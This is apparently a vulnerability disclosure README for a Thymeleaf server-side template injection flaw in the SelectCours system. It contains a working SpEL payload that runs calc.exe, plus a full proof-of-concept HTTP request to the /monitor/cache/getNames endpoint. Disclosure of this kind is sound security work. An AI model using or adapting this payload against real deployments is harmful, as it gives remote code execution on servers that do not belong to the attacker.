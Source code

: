 # SelectCours-_Sever-side-Template-injection  
There is a serious vulnerability in the SelectCours  system. The Server Side Template Injection vulnerability may lead to sensitive information leakage, code execution, GetShell, and other issues.  
system URL:  
https://gitee.com/rahman/select-cours  
https://github.com/qinghongyou/selectcourse  
From the pom.xml file in the system, it can be found that the system is using a lower version of thymeleaf.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/84aa5890-6904-4678-8c60-292a41a27b8e)  
And found that the return is controllable in the/getNames interface.Therefore, there is a thymeleaf template injection vulnerability in the system.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/a6d346b9-c302-46af-8a0b-f45a9cf03552)  
Find the function point in the front-end page to capture and modify data.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/3a4fc8e7-85da-4413-864a-3a51b1ff0e21)  
payload:${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}    
POC:  
POST /monitor/cache/getNames HTTP/1.1  
Host: 127.0.0.1:8899  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0  
Accept: */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 67  
Origin: http://127.0.0.1:8899  
Connection: close  
Referer: http://127.0.0.1:8899/monitor/cache  
Cookie: JSESSIONID=244ca31b-26cc-45cc-af03-cbda23de6f29  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

fragment=${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}  


When clicking to send a data packet, malicious code will be executed to start the computer.
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/19ac3c89-80c8-4c80-a44c-8805e346078f)  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/85e85737-4804-4fe8-93bc-5519968d7524)








